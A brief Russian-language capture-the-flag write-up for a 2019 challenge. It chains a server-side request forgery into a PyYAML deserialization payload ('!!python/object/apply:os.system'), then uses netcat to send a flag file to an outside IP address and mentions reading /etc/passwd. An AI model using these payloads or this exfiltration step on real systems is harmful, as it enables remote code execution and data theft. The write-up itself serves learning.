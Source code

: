 1. Смотрим, какие проверки делает сайт и отвравляем его проверить наш сервер 89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим админку через dirsearch. Она отдает 403 - поэтому делаем запрос http://localhost/admin/ через сайт.  Проверям как он реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что  падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг передав http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
